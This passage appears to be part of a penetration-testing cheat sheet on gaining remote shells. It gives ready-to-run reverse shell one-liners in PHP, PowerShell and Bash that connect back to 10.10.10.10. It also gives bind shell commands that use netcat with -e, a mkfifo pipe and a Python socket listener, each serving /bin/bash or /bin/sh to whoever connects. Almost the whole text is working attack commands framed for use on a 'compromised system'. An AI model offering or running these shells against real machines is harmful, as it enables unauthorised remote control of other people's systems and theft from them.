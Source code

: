 - **PHP (Linux)**:
    
    ```bash
    php -r '$sock=fsockopen("10.10.10.10",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
    
- **PowerShell (Windows)**:
    
    <pre>```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){$data = (New-Object -TypeName Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```</pre>
    

**Reverse Shell over HTTPS:** This is useful if HTTP traffic is blocked, but HTTPS is open.

- **Bash (Linux)**:
    
    <pre>```bash
    bash -c "exec 5<>/dev/tcp/10.10.10.10/443;cat <&5 | while read line; do $line 2>&5 >&5; done"
    ```</pre>
    

Once the reverse shell is executed, the listener (Netcat or Metasploit) will show a connection, and you can interact with the compromised system.

---

### **Bind Shell**

A **Bind Shell** sets up a listener on the compromised machine, and the attacker connects to it. Bind shells are less common because firewalls often block inbound connections, but they can be useful in certain scenarios.

**Steps for Bind Shell:**

1. Execute a bind shell payload on the compromised system.
2. Connect to the target machine’s open port with `netcat`.

**Bind Shell Commands:**

- **Bash (Linux)**:
    
    <pre>```bash
    nc -lvnp 1234 -e /bin/bash
    ```</pre>
    
    <pre>```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
    ```</pre>
    
- **Python (Linux)**:
    
    <pre>```python
    python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",1234));s.listen(1);conn,addr=s.accept();while True: data=conn.recv(1024);if not data: break;p=subprocess.Popen(data,shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE);conn.sendall(p.stdout.read()+p.stderr.read())'
    ```</pre>
    